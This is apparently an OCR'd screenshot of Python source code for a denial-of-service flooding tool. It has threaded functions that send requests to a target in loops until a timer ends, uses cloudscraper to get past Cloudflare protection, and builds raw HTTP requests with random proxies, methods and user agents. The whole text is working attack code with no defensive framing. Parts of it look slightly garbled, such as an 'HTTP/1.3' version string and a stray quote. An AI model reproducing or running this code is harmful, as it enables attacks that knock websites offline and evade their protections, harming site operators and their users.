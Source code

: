 def AttackSOC(target, until_datetime, req):
    if target['scheme'] == 'https':
        s = socks.socksocket()
        s.setsockopt(socket.IPPROTO_TCP, socket.TCP_NODELAY, 1)
        s.connect((str(target['host']), int(target['port'])))
        s = ssl.create_default_context().wrap_socket(s, server_hostname=target['host'])
    else:
        s = socks.socksocket()
        s.setsockopt(socket.IPPROTO_TCP, socket.TCP_NODELAY, 1)
        s.connect((str(target['host']), int(target['port'])))
    while (until_datetime - datetime.datetime.now()).total_seconds() > 0:
        try:
            try:
                for _ in range(100):
                    s.send(str.encode(req))
            except:
                s.close()
        except:
            pass
#endregion

#region CFB
def LaunchCFB(url, th, t):
    until = datetime.datetime.now() + datetime.timedelta(seconds=int(t))
    scraper = cloudscraper.create_scraper()
    for _ in range(int(th)):
        try:
            thd = threading.Thread(target=AttackCFB, args=(url, until, scraper))
            thd.start()
        except:
            pass

def AttackCFB(url, until_datetime, scraper):
    while (until_datetime - datetime.datetime.now()).total_seconds() > 0:
     for _ in range(100):
        try:
            scraper.get(url, timeout=5)
            scraper.post(url, timeout=5)
            scraper.head(url, timeout=5)
        except:
            pass
#endregion

#getCOOOKIE

def attackPXCFB(url, timer, threads):
    for i in range(int(threads)):
        threading.Thread(target=LaunchPXCFB, args=(url, timer)).start()

def LaunchPXCFB(url, timer):
    prox = open("./http.txt", 'r').read().split('\n')
    proxy = random.choice(prox).strip().split(":")
    timelol = time.time() + int(timer)
    m = random.choice(method)
    user_agent = random.choice(useragents)
    req =  m +" / HTTP/1.3\r\nHost: " + urlparse(url).netloc + "\r\n"
    req += "Cache-Control: no-cache\r\n"
    req += user_agent +"\r\n"
    req += "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9\r\n'"
    req += "Sec-Fetch-Site: same-origin\r\n"
    req += "Sec-GPC: 1\r\n"
    req += "Sec-Fetch-Mode: navigate\r\n"
    req += "Sec-Fetch-Dest: document\r\n"
    req += "Upgrade-Insecure-Requests: 1\r\n"
    req += "Connection: Keep-Alive\r\n\r\n"